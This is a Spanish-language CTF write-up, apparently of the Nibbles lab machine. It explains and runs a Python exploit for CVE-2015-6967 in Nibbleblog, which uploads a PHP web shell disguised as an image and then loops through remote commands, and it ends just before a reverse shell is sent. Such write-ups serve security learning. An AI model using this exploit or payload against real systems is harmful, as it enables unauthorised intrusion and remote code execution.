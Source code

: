 ```python3
def execute_commands(target, username, password):
    payload = '<?php echo shell_exec($_GET["cmd"]); ?>'
    login(target, username, password)
    image_url = f"{target}/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image"
    exec_path = f"{target}/nibbleblog/content/private/plugins/my_image/image.php"
    try:
          req = SESSION.get(image_url, timeout=10, verify=False)
    except Exception as e:
        sys.exit("[-] Exception: {}".format(e))
    if 'Plugins :: My image' in req.text:
        print("[+] Uploading shell...")

        data = {
            "plugin": (None, 'my_image'), "title": (None, 'My image'), "position": (None, 4), "caption": "",
            "image": ('doesnt_matter.php', payload, "application/x-php", {'Content-Disposition': 'form-data'}),
            "image_resize": (None, 1), "image_width": (None, 200), "image_height": (None, 200), "image_option": (None, 'auto')
        }
        
        try:
            upload = SESSION.post(url=image_url, files=data, timeout=10, verify=False)

            if 'Changes has been saved successfully' in upload.text:
                print(f"[ * ] Shell has been uploaded!")
                print(75 * '-')
                while True:
                    params = {"cmd": input("cmd> ")}
                    command = SESSION.get(url=exec_path, params=params, verify=False)
                    print(command.text)
            else:
                sys.exit("[ - ] Shell upload failed, exiting")
        except Exception as e:
            sys.exit("[-] Exception: {}".format(e))
    else:
        sys.exit("Error uploading shell, exiting!")
```
Esta es la parte más importante del exploit, es la que se encarga de ejecutar el RCE. Lo primero que hace es definir varias rutas y un payload además se llama a la función login para obtener una sesión como admin. Lo siguiente es subir el típico payload `<?php system($_GET['cmd']); ?>` haciéndolo pasar como una imagen. Una vez subido mandaremos una petición hacia la ruta donde se subió con el comando que queremos ejecutar. Esto se ejecutara indefinidamente.

# Shell como nibbler

Una vez entendido el exploit lo ejecutaremos para lograr un RCE.

```bash
python3 CVE-2015-6967.py --url http://10.129.144.174/ --username admin --password nibbles
[ + ] Login Succesfuly!
[+] Uploading shell...
[ * ] Shell has been uploaded!
---------------------------------------------------------------------------
cmd>
```
Me enviaré una shell a mi puerto 443.
